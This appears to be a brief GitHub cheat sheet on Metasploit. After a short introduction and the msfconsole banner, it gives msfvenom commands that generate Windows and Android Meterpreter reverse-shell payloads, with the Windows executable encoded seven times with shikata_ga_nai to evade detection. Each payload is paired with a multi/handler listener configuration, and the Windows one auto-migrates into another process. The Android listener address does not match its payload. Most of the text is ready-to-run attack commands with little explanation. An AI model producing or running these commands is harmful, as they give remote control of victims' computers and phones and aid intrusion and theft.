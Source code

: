# Metasploit

Metasploit is not just a single tool. It is a complete framework. It is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code, it is flexible and extremely robust and has tons of tools to perform various simple and complex tasks.

## Msfconsole
```ruby
┌──(kali㉿kali)-[~]
└─$ msfconsole
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.0.15-dev                          ]
+ -- --=[ 2071 exploits - 1123 auxiliary - 352 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Search can apply complex filters such as search cve:2009 type:exploit, see all the filters with help search

msf6 > 
```
## Msfvenom for windows

*Payload*
```sh
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.12 LPORT=1234 -e x86/shikata_ga_nai -i 7 -f exe > exploit.exe
```
*Listener*
```sh
# Open msfconsole
msfconsole

# setting exploit(payload)
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set autorunscript post/windows/manage/migrate
set lhost 192.168.1.12
set lport 1234
exploit
```
## Msfvenom for android

```sh
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.13 LPORT=1234 -R > exploit.apk
```

```sh
# Open msfconsole
msfconsole

# setting exploit(payload)
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 192.168.1.12
set lport 1234
exploit
```
